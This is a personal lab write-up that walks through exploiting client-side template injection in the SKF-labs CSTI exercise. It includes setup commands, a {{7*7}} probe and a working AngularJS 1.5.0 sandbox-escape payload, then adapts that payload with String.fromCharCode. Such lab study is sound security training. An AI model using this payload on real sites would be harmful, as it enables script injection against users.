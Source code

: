 # Definition
Something to do!!
## Installing and Preparing lab
I will be using [skf-labs](https://github.com/blabla1337/skf-labs) github project as lab.
```shell
git clone https://github.com/blabla1337/skf-labs
```
___
Then, we will use *python2.7* and *pip2*.
```shell
sudo apt install python2
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python2.7 ./get-pip.py
```
___
Now, let's install requirements.
```shell
rm ./get-pip.py
cd skf-labs/python/CSTI
pip2 install -r requirements.txt
```
___
Finally, we are going to deploy the vulnerable web.
```Python
python2 CSTI.py
```
![[Pasted image 20230720173240.png]]
___
# Attacking
## Understanding
First, we could insert our name.
![[Pasted image 20230720174323.png]]
___
We can see that this web uses a *Client Side Template* ejecution from this code space.
![[Pasted image 20230720174504.png]]
___
# Attacking
## Verifying CSTI
We could verify if there is CSTI vulnerability by inserting a *Python* math operation.
```Python
{{7*7}}
```
![[Pasted image 20230720174734.png]]
___
Great, now we can search some *payload* to do a CSTI in the web, but first we should obtain the web technologies used.
Pressing **CTRL+u** we can see that this web uses *Angular V1.5.0*.
![[Pasted image 20230720175130.png]]
___
## Hacking
After doing a web search, we found this [Angular1.5.0-CSTI-payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md) from *Payloads All The Things*.
```Python
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```
___
And putting it on the web.
![[Pasted image 20230720175710.png]]
___
But, if we want to put **PWNED** instead of **1** that will not work.
```Python
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert("PWNED")))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```
![[Pasted image 20230720175941.png]]
___
To achieve the above, we should do a *Hex to String* conversion.
```Javascript
// HEX('PWNED') = [80, 87, 78, 69, 68]
String.fromCharCode(80, 87, 78, 69, 68)
```
![[Pasted image 20230720180903.png]]
___
And then updating our payload to *Bypass* the string limitation.
```Python
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(String.fromCharCode(80, 87, 78, 69, 68))))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```
![[Pasted image 20230720181126.png]]
___